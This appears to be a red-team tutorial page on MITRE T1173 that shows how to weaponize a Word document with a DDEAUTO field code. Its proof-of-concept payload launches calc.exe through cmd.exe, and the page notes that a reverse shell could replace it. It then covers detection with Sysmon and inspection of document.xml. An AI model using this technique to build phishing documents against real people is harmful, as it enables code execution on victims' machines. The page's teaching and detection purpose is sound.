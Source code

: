 ```yaml
---
description: Dynamic Data Exchange code - executing code in Microsoft Office documents.
---
```


# T1173: Phishing - DDE

## Weaponization

Open a new MS Word Document and insert a field:

![](../../../.gitbook/assets/dde-insert-field.png)

It will add an `!Unexpected End of Formula`to the document, that is expected. Right click it &gt; Toggle Field Codes:

![](../../../.gitbook/assets/dde-toggle-code.png)

Toggle Field Codes will give this:

![](../../../.gitbook/assets/dde-merge.png)

Replace `= \* MERGEFORMAT` with payload and save the doc:

```bash
DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"
```

to get this:

![](../../../.gitbook/assets/dde-payload.png)

{% file src="../../../.gitbook/assets/evil.docx" caption="DDE: evil.docx" %}

## Execution

Once the victim launches the evil .docx by and accepts 2 prompts, the reverse shell \(or in this case a calc.exe\) pops:

![](../../../.gitbook/assets/dde-prompt1.png)

![](../../../.gitbook/assets/dde-prompt2.png)

## Observations

![](../../../.gitbook/assets/dde-procexp.png)

Sysmon logs can help spot suspicious processes and/or network connections being initiated by Office applications:

![3rd and 4th columns respectively: PID and PPID](../../../.gitbook/assets/dde-sysmon.png)

## Inspection

How can we inspect .docx \(same for .xlsx\) files? Since they are essentially .zip archives, we can rename the .docx file to .zip and simply unzip the archive for further inspection.

The file we are interested in is the `document.xml` \(trimmed for brevity below\). Note how line 4 allows us inspecting the DDE payload in plain text:

{% code title="document.xml" %}
```markup
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" xmlns:cx="http://schemas.microsoft.com/office/drawing/2014/chartex" xmlns:cx1="http://schemas.microsoft.com/office/drawing/2015/9/8/chartex" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:w15="http://schemas.microsoft.com/office/word/2012/wordml" xmlns:w16se="http://schemas.microsoft.com/office/word/2015/wordml/symex" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:wpi="http://schemas.microsoft.com/office/word/2010/wordprocessingInk" xmlns:wne="http://schemas.microsoft.com/office/word/2006/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" mc:Ignorable="w14 w15 w16se wp14">
<...snip...>
      <w:instrText>DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"</w:instrText>
<...snip...>
</w:document>
```
{% endcode %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1173" %}





